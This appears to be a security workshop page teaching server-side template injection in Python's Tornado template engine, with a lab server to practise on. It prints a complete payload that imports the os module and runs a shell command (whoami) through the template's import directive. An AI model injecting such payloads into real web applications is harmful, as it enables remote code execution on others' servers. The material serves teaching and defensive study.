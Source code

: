 ### Introduction

Tornado template is an engine that is part of Tornado a popular Python web framework. This exercise will probably be the easiest. It should demonstrate that simply reading the library documentation can sometimes reveal powerful functionalities.

### Template syntax basics

```
Hello {{userName}}
```
*Basic data binding*

### Exploitation opportunity

It is much easier that Jinja2. Because it supports the `import` directive. The implementation of this directive is analog to the Python import.
```
{%import os%}
```

Positive
: `import` directive requires only one brackets `{...}`.

Here is a complete payload which imports the `os` module and execute the method `popen` (process open).
```
{%import os%}
{{os.popen("whoami").read()}}
```


### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8014/](http://template-injection.gosec.co:8014/).

![Tornado Template](assets/screenshots/tornado1.png)
